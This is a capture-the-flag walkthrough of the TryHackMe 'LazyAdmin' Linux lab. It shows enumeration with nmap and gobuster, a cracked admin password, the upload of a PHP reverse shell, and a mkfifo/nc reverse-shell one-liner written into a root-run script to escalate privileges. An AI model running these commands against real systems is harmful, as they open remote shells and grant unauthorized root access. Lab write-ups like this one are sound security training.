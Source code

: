 ```yaml
---
title: TryHackMe - LazyAdmin
author: Bonface
date: 2024-02-24 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ssh
  - http
  - gobuster
image:
  path: /assets/img/try%20hack%20me%20/Easy/LazyAdmin/0.jpeg
  alt: LazyAdmin
---
```


# LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



##  site

![](../assets/img/try_hack_me/Easy/LazyAdmin/1.png)


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![](../assets/img/try_hack_me/Easy/LazyAdmin/2.png)

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![](../assets/img/try_hack_me/Easy/LazyAdmin/3.png)

```sh
/inc
```
![](../assets/img/try_hack_me/Easy/LazyAdmin/4.png)

![](../assets/img/try_hack_me/Easy/LazyAdmin/5.png)


![](../assets/img/try_hack_me/Easy/LazyAdmin/6.png)

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![](../assets/img/try_hack_me/Easy/LazyAdmin/7.png)

log in using the details.  
![](../assets/img/try_hack_me/Easy/LazyAdmin/8.png)

Let's look around searching for an exploit vector.  
![](../assets/img/try_hack_me/Easy/LazyAdmin/9.png)

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands
will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

**now we have a shell !!!**

![](../assets/img/try_hack_me/Easy/LazyAdmin/10.png)  

user flag = THM{...}  
![](../assets/img/try_hack_me/Easy/LazyAdmin/11.png)



# priv esc

First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](../assets/img/try_hack_me/Easy/LazyAdmin/12.png)  
Let's first look at the backup.pl   
![](../assets/img/try_hack_me/Easy/LazyAdmin/13.png)  

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![](../assets/img/try_hack_me/Easy/LazyAdmin/14.png)


```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}  
![](../assets/img/try_hack_me/Easy/LazyAdmin/15.png)

